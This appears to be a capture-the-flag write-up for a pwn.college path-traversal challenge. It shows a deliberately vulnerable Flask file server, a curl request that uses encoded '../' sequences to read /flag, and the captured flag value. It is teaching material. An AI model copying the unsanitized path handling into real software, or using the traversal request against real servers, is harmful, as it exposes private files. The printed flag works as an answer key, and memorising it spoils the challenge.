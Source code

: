 ```yaml
---
custom_edit_url: null
sidebar_position: 1
---
```


## Path Traversal 1

### Source code
```py title="/challenge/server" showLineNumbers
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/data", methods=["GET"])
@app.route("/data/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path
    print(f"DEBUG: {requested_path=}")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

The challenge looks for the `/data` path in the request and then uses the following `<path:path>` in order to craft the full requested path.

```
## Request:
curl "challenge.localhost:80/data/../../flag"

## Full path:
/challenge + /files/ + flag  -->  /challenge/files/../../flag  -->  /flag
```

Let's perform path traversal to solve this challenge.

```
hacker@web-security~path-traversal-1:/$ curl "challenge.localhost:80/data/..%2F..%2Fflag"
pwn.college{A0_4-6SgR7VQApzuImhC7CrZa4J.ddDOzMDL4ITM0EzW}
```
